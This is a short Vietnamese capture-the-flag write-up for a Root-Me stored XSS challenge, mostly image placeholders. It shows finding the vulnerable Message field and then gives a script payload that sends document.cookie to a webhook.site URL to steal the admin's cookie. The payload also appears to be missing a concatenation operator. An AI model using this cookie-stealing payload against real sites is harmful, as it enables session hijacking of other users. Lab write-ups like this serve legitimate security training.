








Challenge: http://challenge01.root-me.org/web-client/ch18/

Đầu tiên truy cập web và thử với input an toàn: 



Lần lượt thử xem phần Title hay Message bị XSS:






Vậy ở đây ta rút ra được phần Message bị XSS.

Vì mục đích là lấy được cookie phía admin, nên cần phải gửi document.cookie từ phía máy chủ. 

Dùng webhook để nhận gói tin:


```
<script>fetch('https://webhook.site/07a827ce-9a71-4727-8c68-3381bd0cc939/' encodeURI(document.cookie), {method: 'GET'});</script>
```
Ta nhận được gói tin bên webhook:


